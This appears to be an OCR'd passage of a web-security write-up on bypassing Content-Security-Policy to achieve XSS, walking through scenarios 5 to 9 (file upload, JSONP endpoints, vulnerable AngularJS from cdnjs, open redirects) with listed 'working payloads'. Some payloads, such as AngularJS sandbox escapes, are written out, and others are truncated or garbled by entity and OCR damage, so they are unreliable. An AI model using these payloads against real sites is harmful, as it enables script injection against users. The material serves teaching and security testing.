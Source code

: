 **Scenario**: **5**

Content-Security-Policy: script-src ‘self’; object-src ‘none’ ; report-uri /Report-parsing-url;

we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.

working payloads :"/&gt;’&gt;

**Scenario** : **6**

Content-Security-Policy: script-src ‘self’ https://www.google.com; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :"&gt;

**Scenario** : **7**

Content-Security-Policy: script-src ‘self’ https://cdnjs.cloudflare.com/; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :

{{ x = $on.curry.call().eval(“fetch(‘http://localhost/index.php’).then(d =&gt; {})”) }}  

"&gt;

{{<span class="math inline">$eval.constructor('alert(1)')()}}&lt;/div&gt;"&gt;&lt;script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"&gt; &lt;/script&gt; &lt;div ng-app ng-csp id=p ng-click=$</span>event.view.alert(1337)&gt;

**Scenario** : **8**

Content-Security-Policy: script-src ‘self’ ajax.googleapis.com[;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ;report-uri /Report-parsing-url;

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

working payloads :ng-app"ng-csp ng-click=$event.view.alert(1337)&gt;

"&gt;

**Scenario** : **9**

Content-Security-Policy: script-src ‘self’ accounts.google.com/random/ website.with.redirect.com [;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ; report-uri /Report-parsing-url;

In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
